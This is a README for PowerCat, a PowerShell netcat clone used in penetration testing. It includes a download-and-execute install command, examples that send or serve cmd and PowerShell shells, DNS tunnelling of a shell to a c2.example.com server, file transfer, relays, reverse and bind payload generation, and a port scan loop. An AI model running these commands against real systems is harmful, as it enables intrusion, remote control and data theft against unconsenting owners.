 PowerCat
========
A PowerShell version of netcat. (Powershell Version 2 and Later Supported)

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
    Import the functions from downloaded .psm1 File:
        Import-Module PowerCat.psm1
    Load the functions individually from URL:
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')

### Parameters:
    
    Invoke-PowerCat
    
    -Listener       Listen for a connection.                            [Switch]
    -Client         IPv4 address of a listener to connect to.           [String]
    -Port           The port to connect to, or listen on.               [Int]
    -Execute        Execute a process.                                  [String]
    -PowerShell     Execute Powershell.                                 [Switch]
    -Relay          Format: "-r tcp:10.1.1.1:443"                       [String]
    -Udp            Transfer data over UDP.                             [Switch]
    -Timeout        Timeout option. Default: 60                         [Int]
    -Input          Filepath (string), byte array, or string.           [Object]
    -OutputType     Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     Output File Path.                                   [String]
    -Disconnect     Disconnect after connecting.                        [Switch]
    -Repeat         Restart after disconnecting.                        [Switch]
    -Payload        Generate payload.                                   [Switch]
    -Encoded        Generate Base64 encoded payload.                    [Switch]
    
    Invoke-DnsCat
    
    -Server         Name of DnsCat2 server to connect to.               [String]
    -Threshold      DNS Failure Threshold.                              [Int]

Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
    Basic Listener:
        Invoke-PowerCat -Listener -Port 443
        
    Basic Client:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443
        
    Basic Client, Output as Bytes:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes

File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
    Send File:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    Recieve File:
        Invoke-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile

Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
    Serve a cmd Shell:
        Invoke-PowerCat -Listener -Port 443 -Execute cmd
        
    Send a cmd Shell:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    Serve a shell which executes powershell commands:
        Invoke-PowerCat -Listener -Port 443 -PowerShell

DNS and UDP
-----------
PowerCat supports more than sending data over TCP. Specify the -Udp paratmeter to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) via Invoke-DnsCat.
###
    Send Data Over UDP:
        Invoke-PowerCat -Listener -Port 8000 -Udp
        
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        Invoke-DnsCat -Client 10.1.1.1 -Port 53 -Server c2.example.com
        
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        Invoke-DnsCat -Server c2.example.com -Execute cmd

Relays
------
Relays in PowerCat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to UDP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    TCP Listener to DNS Client Relay
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:10.1.1.1:53:c2.example.com
        
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:::c2.example.com
        
    TCP Client to Client Relay
        Invoke-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to Listener Relay
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:9000

Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        Invoke-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
        
    Generate a bind tcp encoded command which listens on port 8000:
        Invoke-PowerCat -Listener -Port 8000 -Execute cmd -Encoded

Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
    Basic TCP port scan:
        1..1024 | ForEach-Object { Invoke-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
        
    Persistent listener:
        Invoke-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat
